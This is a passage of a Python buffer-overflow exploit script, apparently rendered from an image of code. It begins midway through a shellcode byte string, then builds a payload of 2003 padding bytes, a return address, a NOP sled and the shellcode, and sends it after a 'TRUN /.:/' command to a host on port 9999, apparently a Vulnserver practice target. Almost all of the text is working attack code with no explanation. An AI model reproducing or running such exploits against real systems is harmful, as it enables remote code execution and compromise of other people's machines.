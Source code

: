 ```python
b"\xd7\x31\x8f\xcf\x25\x4b\xc8\xe8\xd5\x3e\x20\x0b\x6b\x39\xf7"
b"\x71\xb7\xcc\xe3\xd2\x3c\x76\xcf\xe3\x91\xe1\x84\xe8\x5e\x65"
b"\xc2\xec\x61\xaa\x79\x08\xe9\x4d\xad\x98\xa9\x69\x69\xc0\x6a"
b"\x13\x28\xac\xdd\x2c\x2a\x0f\x81\x88\x21\xa2\xd6\xa0\x68\xab"
b"\x1b\x89\x92\x2b\x34\x9a\xe1\x19\x9b\x30\x6d\x12\x54\x9f\x6a"
b"\x55\x4f\x67\xe4\xa8\x70\x98\x2d\x6f\x24\xc8\x45\x46\x45\x83"
b"\x95\x67\x90\x04\xc5\xc7\x4b\xe5\xb5\xa7\x3b\x8d\xdf\x27\x63"
b"\xad\xe0\xed\x0c\x44\x1b\x66\xf3\x31\x27\x31\x9b\x43\x27\xac"
b"\x07\xcd\xc1\xa4\xa7\x9b\x5a\x51\x51\x86\x10\xc0\x9e\x1c\x5d"
b"\xc2\x15\x93\xa2\x8d\xdd\xde\xb0\x7a\x2e\x95\xea\x2d\x31\x03"
b"\x82\xb2\xa0\xc8\x52\xbc\xd8\x46\x05\xe9\x2f\x9f\xc3\x07\x09"
b"\x09\xf1\xd5\xcf\x72\xb1\x01\x2c\x7c\x38\xc7\x08\x5a\x2a\x11"
b"\x90\xe6\x1e\xcd\xc7\xb0\xc8\xab\xb1\x72\xa2\x65\x6d\xdd\x22"
b"\xf3\x5d\xde\x34\xfc\x8b\xa8\xd8\x4d\x62\xed\xe7\x62\xe2\xf9"
b"\x90\x9e\x92\x06\x4b\x1b\xb2\xe4\x59\x56\x5b\xb1\x08\xdb\x06"
b"\x42\xe7\x18\x3f\xc1\x0d\xe1\xc4\xd9\x64\xe4\x81\x5d\x95\x94"
b"\x9a\x0b\x99\x0b\x9a\x19")

shellcode = b"A" * 2003 + b"\xaf\x11\x50\x62" + b"\x90" * 16 + overflow

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))
	
	payload = b"TRUN /.:/" + shellcode
	
	s.send((payload))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
